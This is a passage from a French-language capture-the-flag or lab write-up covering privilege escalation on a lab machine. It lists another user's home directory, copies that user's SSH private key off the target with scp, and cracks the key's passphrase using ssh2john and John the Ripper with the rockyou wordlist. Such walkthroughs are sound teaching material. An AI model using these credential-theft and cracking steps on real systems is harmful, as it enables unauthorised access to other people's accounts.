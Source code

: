 ## Élévation de privilèges

Nous savons qu'il existe un autre utilisateur sur la machine. En navigant dans son dossier personnel, nous constatons que nous pouvons récupérer sa clé privée SSH. Cet utilisateur est d'autant plus intéressant qu'il fait partie du groupe {% include dictionary.html word="sudo" %}.

```bash
cd /home/[...expurgé...]/

ls -hAl
total 40K
[...expurgé pour brièveté...]
drwxr-xr-x 2 [...expurgé...]  [...expurgé...] 4.0K Apr 23  2018 .ssh
-rw-r--r-- 1 [...expurgé...]  [...expurgé...]    0 Apr 17  2018 .sudo_as_admin_successful
[...expurgé pour brièveté...]

cd .ssh/

ls -hAl
total 12K
-rw-rw-r-- 1 [...expurgé...] [...expurgé...]  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 [...expurgé...] [...expurgé...] 3.3K Apr 19  2018 id_rsa
-rw-r--r-- 1 [...expurgé...] [...expurgé...]  771 Apr 19  2018 id_rsa.pub

groups [...expurgé...]
[...expurgé...] : [...expurgé...] adm cdrom sudo dip plugdev lxd lpadmin sambashare
```

Nous récupérons la clé puis nous tentons de l'utiliser. Mais celle-ci est protégée par un mot de passe :

```bash
# Récupérer la clé sur notre machine
scp [...expurgé...]@10.10.53.133:/home/[...expurgé...]/.ssh/id_rsa ./
[...expurgé...]@10.10.53.133\'s password: 
id_rsa                                        100% 3326     1.9MB/s   00:00
# Vérifier la réception et les droits associés
ls -hl
total 4.0K
-rw-r--r-- 1 root root 3.3K Feb  8 17:56 id_rsa
# Appliquer les bons niveaux de droits pour la clé privée
chmod 600 id_rsa
# Tentative de connexion
ssh -i id_rsa [...expurgé...]@10.10.53.133
Enter passphrase for key 'id_rsa': 
```

## Forcer le mot de passe de la clé

```bash
# Convertir le fichier en hash exploitable par John The Ripper
ssh2john id_rsa > hash.txt
# Craquer le hash
john --format=SSH hash.txt -w=/usr/share/wordlists/rockyou.txt
```
